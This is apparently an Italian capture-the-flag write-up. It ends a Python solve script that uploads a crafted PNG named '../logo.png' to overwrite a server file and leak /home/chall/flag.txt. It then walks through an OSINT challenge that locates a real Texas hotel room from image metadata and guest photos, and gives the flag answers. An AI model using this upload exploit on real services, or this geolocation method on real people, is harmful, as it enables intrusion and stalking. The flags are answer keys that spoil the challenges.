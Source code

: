 ```python
    upload_url = f"{base_url}/upload"
    logo_sm_url = f"{base_url}/logo-sm.png"

    reset_server_cache(upload_url)
    create_png("/home/chall/flag.txt")

    files = {"file": ("../logo.png", open(MALICIOUS_PNG_PATH, "rb"), "image/png")}
    requests.post(upload_url, files=files, timeout=15).raise_for_status()
    requests.get(logo_sm_url, timeout=10)
    time.sleep(2)

    response = requests.get(logo_sm_url, timeout=15)
    response.raise_for_status()
    with open(OUTPUT_PNG_PATH, "wb") as f:
        f.write(response.content)

    flag_dec = ''
    for flag in re.findall(r'[a-f0-9]+'.encode(), response.content):
        if len(flag) > 4:
            flag_dec += flag.decode()
    print(bytes.fromhex(flag_dec).decode().strip())

if __name__ == "__main__":
    main()
```

## Insider 4 🔎

### Introduzione

Quando apriamo la cartella `.insider-4` ([https://github.com/scriptCTF/scriptCTF26/tree/main/OSINT/.insider-4/attachments](https://github.com/scriptCTF/scriptCTF26/tree/main/OSINT/.insider-4/attachments)), vediamo `fireworks.jpg`, `room.jpg` e un file `.secret` che nota come il fotografo aggiunga commenti alle sue immagini. Questo ci indirizza subito ai metadati nascosti.

### Analisi

Usando **exiftool** sulle immagini, in `fireworks.jpg` troviamo un commento sulla *famiglia Wendell* che organizza fuochi d’artificio. [Una rapida ricerca](https://wendellfamilyfireworks.com/places-to-eat-stay-watch/) mostra che la famiglia Wendell tiene ogni anno fuochi d’artificio a Rockport, Texas. Questo restringe la località della vacanza all’area di Rockport.

Poi controlliamo la seconda immagine, `room.jpg`. È chiaramente una foto scattata dal balcone di una camera d’albergo con vista diretta sul mare. Sapendo che i fuochi d’artificio avvengono a Rockport, apriamo Google Maps, scriviamo “hotel” lungo il lungomare e iniziamo a confrontare balconi e struttura generale. Dopo un po’ di avanti e indietro con Street View, la corrispondenza è evidente: **Days Inn by Wyndham Rockport, 901 Hwy 35 N, Rockport, TX 78382** ([`https://maps.app.goo.gl/sSV1KWFeVUWauTWZ9`](https://maps.app.goo.gl/sSV1KWFeVUWauTWZ9)).

Resta da capire il numero della stanza. Poiché la challenge suggeriva che non sarebbe servito un brute force infinito, abbiamo pensato di controllare **recensioni e foto dei clienti su Google Maps**, dato che la gente ama postare immagini delle stanze. Scorrendo le foto, incappiamo in un’immagine con i numeri **115** e **116** uno accanto all’altro. Abbiamo osservato che i numeri di stanza decrescono andando verso la parte dell’edificio che combacia con la vista dal nostro balcone in `room.jpg`. Questo significa che la stanza target dovrebbe essere un po’ più in basso di 115.

Testiamo un piccolo intervallo: 114, 113, 112, 111, ecc. E la **111** è quella giusta.

La flag richiede indirizzo più numero di stanza, formattati come nell’esempio. L’indirizzo dell’hotel è `901 Hwy 35 N`, quindi la submission finale è:

```
scriptCTF{901_Hwy_35_N_111}
```
